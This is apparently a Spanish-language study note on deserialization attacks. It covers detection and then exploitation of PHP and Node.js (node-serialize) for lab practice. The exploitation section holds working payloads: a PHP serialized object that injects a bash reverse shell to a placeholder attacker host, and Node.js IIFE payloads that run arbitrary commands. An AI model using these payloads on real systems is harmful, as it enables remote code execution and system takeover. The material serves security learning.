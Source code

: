 # Ataques de Deserialización

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #Deserialization #exploiting

***

## Definición

> Los **ataques de deserialización** son amenazas cibernéticas en las que los datos serializados, al ser manipulados, pueden permitir a los atacantes ejecutar código malicioso en una aplicación, revelar información sensible o causar daño al sistema.
>
> La **serialización** de un objeto es el proceso de convertir un objeto o estructura de datos en una secuencia de **bytes** que puede ser almacenada, transmitida o restaurada en su forma original posteriormente. Esto permite que los objetos se guarden en archivos, se envíen a través de la red o se almacenen en bases de datos de manera eficiente. La serialización es comúnmente utilizada en programación para preservar el estado de objetos y compartir datos entre diferentes aplicaciones o sistemas.
>
> Para evitar estos ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserialización seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para corregir posibles vulnerabilidades.

***

## Detección de vulnerabilidad

Para detectar si un servicio es vulnerable a un **ataque de deserialización** podemos probar lo siguiente:

* **Manipulación de datos**: Podemos buscar campos donde los usuarios puedan ingresar datos que podrían estar sujetos a procesos de deserialización, como formularios, campos de cookies o parámetros en **URLs**, para introducir datos modificados cargando archivos serializados maliciosos.
* **Examinación de datos enviados**: Podemos interceptar la petición con un proxy, de manera que si vemos los datos enviados serializados (0:4:"test" por ejemplo) puede ser que sea vulnerable.
* **Observación de respuestas y comportamiento**: Podemos buscar errores específicos relacionados con la deserialización, como **"ClassNotFoundException"** o **"InvalidClassException"**, pudiendo resultar en una posible vulnerabilidad.

***

## Explotación

### PHP

Primeramente, debemos interceptar la petición con \[\[Burpsuite]], y podemos observar una petición, en la que se está enviando información como la siguiente:

```
obj=0:4:"Test":1:{s:9:"ipAddress";s:14:"192.168.111.45";}
```

Y vemos que es un objeto serializado, donde se indica que el objeto tiene 4 caracteres de longitud (Test), y el objeto tiene dos atributos, el primero un **s**tring de 9 caracteres (ipAddress) y el segundo otro **s**tring de 14 caracteres (192.168.111.45).

Para poder proceder con la explotación sería conveniente y casi necesario haber encontrado el código fuente que gestiona el comportamiento del objeto enviado.

Suponiendo que cuando se esté tratando a nuestro objeto, se está ejecutando un comando por detrás, podríamos tratar de inyectar los comandos que nos plazca. Para ello, puede ser que exista en el código fuente algún tipo de variable que compruebe que si los datos introducidos son correctos, y si es así que se ejecute la acción correspondiente. Podríamos enfrentarnos a algo parecido a lo siguiente:

```php
...
class pingTest{
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP)){
				$this->isValid = true;
			}
		}
	}

	public function ping(){
		if ($this->isValid){
			$this->output = shell_exec("ping -c 3 $this->ipAddress");
		}
	}
}
...
```

En este caso la variable mencionada anteriormente sería **isValid**, que comprueba si los datos están correctamente introducidos. Así que podríamos tratar de enviar un objeto serializado de la misma clase, sobrescribiendo la variable **isValid** a true, de manera que podríamos inyectar el comando que nos plazca. Para crear el objeto serializado podemos ejecutar el siguiente script en **php**, que nos devolverá el mismo:

```php
<?php

class pingTest{
	public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/<PUERTO_ATACANTE>'";
	public $isValid = True;
	public $output = "";
}

echo urlencode(serialize(new PingTest))
?>
```

De manera que si enviamos el objeto que nos devuelve el script a través de \[\[Burpsuite]], y nos ponemos en escucha, obtendremos una \[\[Reverse shell]].

### Nodejs

Una vez interceptada la petición, y encontrado el campo donde se está realizando la deserialización, podemos proceder con el ataque. Un objeto serializado en **Nodejs** podría ser el siguiente:

```
{"username":"user","country":"spain"}
```

Para serializar algo que le proporcionemos, podemos hacer uso del siguiente script en **nodejs** (node script.js para ejecutar)

```node
var y = {
	rce : function(){
	require('child_process').exec('<COMANDO A EJECUTAR>',function(error,stdout,stderr) { console.log(stdout)});
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n"+ serialize.serialize(y));
```

Pero esto no se va a ejecutar, nos va a serializar la instrucción. Hay un concepto, llamado **IIFE** (Immediately Invoked Function Expression), que nos permite hacer la llamada a la instrucción inmediatamente. Para poder hacer uso del **IIFE**, tendremos que poner un () al final de la instrucción, por ejemplo, con el script anterior para que se ejecute el comando que le hayamos proporcionado, podemos modificar el script para que quede de la siguiente manera:

```node
var y = {
	rce : function(){
	require('child_process').exec('<COMANDO A EJECUTAR>',function(error,stdout,stderr) { console.log(stdout)});
	}(),  
}
var serialize = require('node-serialize');
console.log("Serialized: \n"+ serialize.serialize(y));
```

Pero, claro, el comando se va a ejecutar cuando se serialice la instrucción, y nosotros queremos que se ejecute la instrucción cuando se deserialice en el servidor. En el servidor se podría estar ejecutando un script como el siguiente para deserializar la instrucción como el que sigue:

```node
var serialize = require('node-serialize');
var payload = '<DATO_SERIALIZADO>';
serialize.unserialize(payload);
```

En la variable **payload** se recibe el dato que hemos serializado anteriormente (quitando saltos de línea y escapando las comillas), por ejemplo:

```
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}"}
```

De manera que si queremos que se produzca el mencionado **IIFE**, podemos añadir un () justamente antes de las últimas dobles comillas, de forma que quedaría así:

```
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Y si enviamos dicho objeto, se ejecutaría la instrucción que hemos introducido. Para tensar la cosa un poco más arrastrando este concepto, y conseguir una \[\[Reverse shell]], podemos hacer uso de [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py), que nos crea un \[\[Payload]] para dicho objetivo. El payload conseguido, habrá que adaptarlo un poco para que quede serializado, de manera que tendremos un dato serializado de la siguiente manera:

```
{"rce":"_$$ND_FUNC$$_function(){<PAYLOAD>}()"}
```

y si lo enviamos como corresponde, y estando en escucha, lo habremos conseguido.

***

## Ejemplos prácticos

* [Máquina Cereal 1](https://www.vulnhub.com/entry/cereal-1,703/) (PHP Deserialization Attack)
* [Opsexc.com](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)(Nodejs Deserialization Attack)
